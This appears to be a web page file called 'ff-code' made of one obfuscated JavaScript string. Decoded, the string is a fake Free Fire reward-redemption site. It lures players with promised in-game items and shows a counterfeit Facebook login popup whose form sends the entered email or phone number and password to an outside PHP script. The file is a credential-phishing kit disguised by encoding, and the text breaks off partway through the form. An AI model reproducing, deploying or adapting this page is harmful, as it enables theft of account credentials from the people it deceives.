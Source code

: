 # ff-code<script language="javascript"> 

var enkripsi="'2C'2C'1A'03FMAV[RG'02jvon'1G'2C'1Ajvon'02fcvc/`wknf/vkogqvcor/wva'1F'000203/26/24V2:'1C07'1C13,07:X'00'02ncle'1F'00gl'00'1G'2C'02'02'02'1Ajgcf'1G'2C'02'02'02'02'02'02'1Aogvc'02jvvr/gswkt'1F'00amlvglv/v{rg'00'02amlvglv'1F'00vgzv-jvon'1@'02ajcpqgv'1FWVD/:'00'1G'2C'02'02'02'02'02'02'1Aogvc'02ajcpqgv'1F'00wvd/:'00'1G'2C'02'02'02'02'02'02'1Aogvc'02jvvr/gswkt'1F'00Z/WC/Amorcvk`ng'00'02amlvglv'1F'00KG'1Fgfeg'00'1G'2C'02'02'02'02'02'02'1Aogvc'02jvvr/gswkt'1F'00z/flq/rpgdgvaj/amlvpmn'00'02amlvglv'1F'00ml'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00tkgurmpv'00'02amlvglv'1F'00ukfvj'1Ffgtkag/ukfvj'0Aklkvkcn/qacng'1F3'0Atkgurmpv/dkv'1Famtgp'00'1G'2C'02'02'02'02'02'02'1Avkvng'1GDpgg'02Dkpg'1A-vkvng'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00flq/rpgdgvaj'00'02jpgd'1F'00jvvrq'1C--rpmf/crk,pgucpf,dd,ecpglc,amo-'00'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00kaml'00'02jpgd'1F'00jvvrq'1C--dpggdkpgom`kng/c,cicockjf,lgv-ddug`qkvg-kocegq-dpggdkpg10/0,kam'00'02v{rg'1F'00koceg-z/kaml'00'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00qjmpvawv'02kaml'00'02jpgd'1F'00jvvrq'1C--dpggdkpgom`kng/c,cicockjf,lgv-ddug`qkvg-kocegq-dpggdkpg34/0,kam'00'02v{rg'1F'00koceg-z/kaml'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00fgqapkrvkml'00'02amlvglv'1F'00'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00cwvjmp'00'02amlvglv'1F'00'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00vkvng'00'02amlvglv'1F'00DpggDkpg'00'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00fgqapkrvkml'00'02amlvglv'1F'00DpggDkpg'00'1G'2C'02'02'02'02'02'02'1Aogvc'02rpmrgpv{'1F'00me'1Cvkvng'00'02amlvglv'1F'00DpggDkpg'00'1G'2C'02'02'02'02'02'02'1Aogvc'02rpmrgpv{'1F'00me'1Cfgqapkrvkml'00'02amlvglv'1F'00DpggDkpg'00'1G'2C'2C'02'02'02'02'02'02'1Ankli'02jpgd'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-aqq-ockl,aqq'00'02pgn'1F'00qv{ngqjggv'00'1G'2C'2;'02'02'1Ankli'02pgn'1F'00qv{ngqjggv'00'02jpgd'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-aqq-qv{ng,aqq'00'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00qv{ngqjggv'00'02jpgd'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-aqq-dcag`mmi,aqq'00'1G'2C'02'02'02'02'02'02'1Ankli'02pgn'1F'00qv{ngqjggv'00'02jpgd'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-aqq-vukvvgp,aqq'00'1G'2C'02'02'02'1A-jgcf'1G'2C'02'02'02'1A`mf{'1G'2C'02'02'02'02'02'02'1Afkt'02kf'1F'00crr'00'1G'2C'1Afkt'02qv{ng'1F'00fkpgavkml'1Cnvp'02'03kormpvclv'1@'00'02ancqq'1F'00ockl'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog/upcrrgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog/`caiepmwlf'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog/amlvcklgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/65`c302d'1F'00'00'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jgcfgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/65`c302d'1F'00'00'02ancqq'1F'00jgcfgp/amlvglv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/65`c302d'1F'00'00'02ancqq'1F'00jgcfgp]]nmem'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog]]pkejv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/4a7f;0;5'1F'00'00'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00ockl'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00ockl/jgcfgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aj0'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00ockl]]vkvng'00'1GPgucpfq'02Pgfgorvkml'02Qkvg'1A-j0'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aqrcl'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00ockl]]fgqapkrvkml'00'1GRngcqg'02nme'02kl,'1A-qrcl'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00ockl]]nmekl'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02kf'1F'00d`Nmekl'00'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-g10:c:7dcd1ga7;7g707:42a;:g162;:,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'2;'2;'2;'2;'2;'2;'2;'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02kf'1F'00d`Nmekl'00'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-c71`d0054cc:36c2271fg3g`06f6:`3`,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'2;'2;'2;'2;'2;'2;'2;'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02kf'1F'00vukvNmekl'00'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-dcf172c`3`154f4g41d6g02::2`5536f,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'2;'2;'2;'2;'2;'2;'2;'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-1d`73:`5a7::3cf4cg`4a4dfc:5405g;,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-f50:07g54c;:3751g:22a`1;:1`dd0:5,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/5c0f1f;:'1F'00'00'02fcvc/t/4a7f;0;5'1F'00'00'02ancqq'1F'00`wvvml'02ockl]]nmekl/`wvvml'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02kf'1F'00vukvNmekl'00'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/5c0f1f;:'1F'00'00'02ancqq'1F'00koceg/amlvcklgp'02koceg/amlvcklgp//jmtgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-dca045f741d;61f227c`f0c23f025546,rle'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'2;'2;'2;'2;'2;'2;'2;'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/0aggaf3g'1F'00'00'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00jmog/rclgn'02jmog]]rclgn'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aj6'02fcvc/t/0aggaf3g'1F'00'00'02ancqq'1F'00jmog/rclgn]]vkvng'00'1GKormpvclv'02Lmvkag'1C'1A-j6'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Amn'02fcvc/t/0aggaf3g'1F'00'00'02ancqq'1F'00nkqv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'023,'02Pgfgorvkml'02amfg'02jcq'02'1Aqrcl'02ancqq'1F'00jkejnkejv'00'1G30'1A-qrcl'1G'02ajcpcavgpq'0A'02amlqkqvkle'02md'02acrkvcn'02ngvvgpq'02clf'02lwo`gpq,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'020,'02Kvgo'02pgucpfq'02cpg'02qjmul'02kl'02'1Aqrcl'02ancqq'1F'00jkejnkejv'00'1G'02'7@tcwnv'7F'02'1A-qrcl'1G'02vc`'02kl'02ecog'02nm``{'1@'02Emnfq'02mp'02fkcomlfq'02uknn'02cff'02kl'02caamwlv'02ucnngv'02cwvmocvkacnn{,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G1,'02Rngcqg'02lmvg'02pgfgorvkml'02gzrkpcvkml'02fcvg,'02Cl{'02gzrkpgf'02amfgq'02acllmv'02`g'02pgfggogf,'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G6,'02Rngcqg'02amlvcav'02awqvmogp'02qgptkag'02kd'02{mw'02glamwlvgpgf'02cl{'02kqqwg,'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G7,'02Pgoklfgp'1C'02{mw'02uknn'02lmv'02`g'02c`ng'02vm'02pgfggo'02{mwp'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02pgucpfq'02ukvj'02ewgqv'02caamwlvq,'02[mw'02oc{'02`klf'02{mwp'02caamwlv'02vm'02Dcag`mmi'02mp'02TI'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02kl'02mpfgp'02vm'02pgagktg'02vjg'02pgucpfq,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-mn'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Admmvgp'02fcvc/t/6`1f70:2'1F'00'00'02fcvc/t/f76:aagg'1F'00'00'02ancqq'1F'00dmmvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00dmmvgp/pwng'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/0aggaf3g'1F'00'00'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00jmog/rclgn'02dmmvgp/pwng]]rclgn'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aj6'02fcvc/t/0aggaf3g'1F'00'00'02ancqq'1F'00jmog/rclgn]]vkvng'00'1GKormpvclv'02Lmvkag'1C'1A-j6'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Amn'02fcvc/t/0aggaf3g'1F'00'00'02ancqq'1F'00nkqv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'023,'02Pgfgorvkml'02amfg'02jcq'02'1Aqrcl'02ancqq'1F'00jkejnkejv'00'1G30'1A-qrcl'1G'02ajcpcavgpq'0A'02amlqkqvkle'02md'02acrkvcn'02ngvvgpq'02clf'02lwo`gpq,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'020,'02Kvgo'02pgucpfq'02cpg'02qjmul'02kl'02'1Aqrcl'02ancqq'1F'00jkejnkejv'00'1G'02'7@tcwnv'7F'02'1A-qrcl'1G'02vc`'02kl'02ecog'02nm``{'1@'02Emnfq'02mp'02fkcomlfq'02uknn'02cff'02kl'02caamwlv'02ucnngv'02cwvmocvkacnn{,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G1,'02Rngcqg'02lmvg'02pgfgorvkml'02gzrkpcvkml'02fcvg,'02Cl{'02gzrkpgf'02amfgq'02acllmv'02`g'02pgfggogf,'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G6,'02Rngcqg'02amlvcav'02awqvmogp'02qgptkag'02kd'02{mw'02glamwlvgpgf'02cl{'02kqqwg,'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ank'02ancqq'1F'00nkqv]]kvgo'00'1G7,'02Pgoklfgp'1C'02{mw'02uknn'02lmv'02`g'02c`ng'02vm'02pgfggo'02{mwp'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02pgucpfq'02ukvj'02ewgqv'02caamwlvq,'02[mw'02oc{'02`klf'02{mwp'02caamwlv'02vm'02Dcag`mmi'02mp'02TI'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02kl'02mpfgp'02vm'02pgagktg'02vjg'02pgucpfq,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-nk'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-mn'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aqrcl'02fcvc/t/6`1f70:2'1F'00'00'1GKormpvclv'02Lmvkag'1C'1A-qrcl'1G'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00dmmvgp/pwng]]kaml'02koceg/amlvcklgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00fcvc'1Ckoceg-rle'1@`cqg46'0AkT@MPu2IEemCCCCLQWjGWeCCC@KCCCCQAC[CCC@Uxm7ZCCC@kGnGSTS6hcUWV2qASPhEd5wnjAPUi@IrA@0WRi@7I7Vu0OZs3IG-PCTf41LKSvCnsDv24PXDWZQHRi@3AWKhs[OPfkjDklg`jfT0uws75Ou5x-LhX0`dLdr5-`em@W{rX3SvD6CV[@a6`m62ezNC@hFsPldmDDeA`w{Q4TeaCQ7`eIC:n{pVCHK10Sfa;4oPZ0WQLqeCvmACox:X;7DO)JQueOmcCisNZudHN6dHN6[Xhovjii2NcLHvv`wxhfTqALOC26Q3kc@T20hQTDd:F`I7GkGU:lF1UMRwsWmq4NTsEnjIS@G1{GAdn;vQn`naedna2PrNVSMNAMjf@3n[N-N:UsfasTthl0CAgpCldV2gSn1vFP@`OpXj6jEtS-d{XU:F21XvOLr@sTzpeFPtZQ@ZjVflgWfCEg@Cfz2vIkL`MuSw-eEP5HECRmCX6MWRGOlOAqRwLglkacF{A6j6HZOvG0d1luDFNU7VRMIThAU1J7q2:PkSTZ2mJ0uTICNluH4akVsQNuEddhDuv{)RTq:CCCCCQWTMPI7A[KK'1F'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00amr{pkejv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/:17:443g'1F'00'00'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00kaml'02koceg/amlvcklgp'00'1G'02'1Akoe'02fcvc/t/:17:443g'1F'00'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-a1621:gfad63:7`1g57c4`:7d3af1f6d,hre'00'02cnv'1F'00'00'02ancqq'1F'00koceg'00'1G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02fcvc/t/6`1f70:2'1F'00'00'02ancqq'1F'00amr{pkejv/ogqqceg'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ar'02fcvc/t/6`1f70:2'1F'00'00'1GAmr{pkejv'02'C;'02Ecpglc'02Klvgplcvkmlcn,'1A-r'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ar'02fcvc/t/6`1f70:2'1F'00'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02Vpcfgocpiq'02`gnmle'02vm'02vjgkp'02pgqrgavktg'02mulgpq,'02Cnn'02pkejvq'02Pgqgptgf,'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-r'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-dmmvgp'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'1A'03////'1G'02'1A'03////'1G'2C'2;'2;'02'2C'2;'2;'02'2C'2;'2;'02'2C'2;'2;'02'1Afkt'02ancqq'1F'00rmrwr/nmekl'02dcag`mmi'02clkocvgf'02dcfgKl'00'02qv{ng'1F'00fkqrnc{'1C'02lmlg'1@'00'1G'2C'02'02'02'02'1Afkt'02ancqq'1F'00rmrwr/`mz/nmekl/d`'00'02'1G'2C'02'02'02'02'02'02'02'02'1Ac'02mlankai'1F'00anmqgd`'0:'0;'00'02ancqq'1F'00anmqg/d`'00'1G'1Ak'02ancqq'1F'00xofk'02xofk/anmqg'00'1GZ'1A-k'1G'1A-c'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00lct`cp/d`'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Akoe'02qpa'1F'00jvvrq'1C--dkngq,qkvg/dwqkml,am,wi-ug`dwqkml32603-koceg-02322:13]dcag`mmi/nmem,rle'00'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00amlvglv/`mz/d`'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Akoe'02qpa'1F'00jvvrq'1C--nj1,emmengwqgpamlvglv,amo-cirnAo{EjaIZ{Qh]a/MFqi`lnxNFu`alV2uCHTn1Do0UCI2uN7U[WV3/pu/K4KcF[Me'00'02ukfvj'1F'0072'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/nmekl/d`'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02Nme'02kl'02vm'02{mwp'02Dcag`mmi'02caamwlv'02vm'02amllgav'02vm'02DpggDkpg'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Admpo'02ancqq'1F'00nmekl/dmpo'00'02cavkml'1F'00jvvrq'1C--pctkpcn,amo-i]dca,rjr'00'02ogvjmf'1F'00rmqv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00vgzv'00'02lcog'1F'00gockn'00'02ancqq'1F'00klrwvD`'00'02rncagjmnfgp'1F'00Om`kng'02lwo`gp'02mp'02gockn'02cffpgqq'00'02cwvmamorngvg'1F'00mdd'00'02cwvmacrkvcnkxg'1F'00mdd'00'02pgswkpgf'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00rcqqumpf'00'02ancqq'1F'00klrwvD`'00'02lcog'1F'00rcqq'00'02rncagjmnfgp'1F'00Rcqqumpf'00'02cwvmamorngvg'1F'00mdd